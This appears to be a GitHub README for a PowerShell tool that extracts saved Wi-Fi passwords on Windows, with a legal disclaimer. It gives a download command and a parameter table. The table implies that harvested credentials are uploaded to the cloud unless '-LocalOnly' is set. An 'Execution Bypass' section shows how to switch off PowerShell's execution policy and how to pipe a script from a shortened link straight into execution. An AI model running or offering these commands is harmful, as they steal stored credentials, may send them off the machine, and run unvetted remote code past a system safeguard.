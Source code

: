 
# # 🔐 **Wi-Fi Credential Extractor** — PowerShell Tool for Windows

![PowerShell](https://img.shields.io/badge/PowerShell-v5.1+-blue.svg)
![License](https://img.shields.io/badge/License-MIT-green.svg)
![Maintainer](https://img.shields.io/badge/Maintainer-techiecyber404-blue)

> **⚠️ Legal Notice**: Only use on networks you own or have explicit permission to test.  
> Unauthorized access to computer networks is illegal.

## 📥 Installation
```powershell
# Download directly
irm https://raw.githubusercontent.com/techiecyber404/WiFi-Credential-Extractor/main/Get-WiFiCredentials.ps1 -OutFile WiFiExtractor.ps1
```

## 🚀 Basic Usage
```powershell
# Run with default options (admin PowerShell required)
.\WiFiExtractor.ps1 -LocalOnly
```

## ⚙️ Parameters
| Parameter       | Description                          |
|-----------------|--------------------------------------|
| `-LocalOnly`    | Disables cloud upload                |
| `-ShowPasswords`| Displays passwords in console        |
| `-OutputPath`   | Custom save location (default: TEMP) |

## 🛡️ Execution Bypass
If blocked by policies:
```powershell
# Method 1: Temporary bypass
Set-ExecutionPolicy Bypass -Scope Process -Force

# Method 2: Direct execution (no save)
irm https://bit.ly/wifi-extractor | iex
```

## 🌟 Features
- Encrypted credential storage
- Ethical use enforcement
- Lightweight (7KB) and fast

## 📜 License
MIT © [Venkatesh K](https://github.com/techiecyber404)  
**GitHub**: [@techiecyber404](https://github.com/techiecyber404)
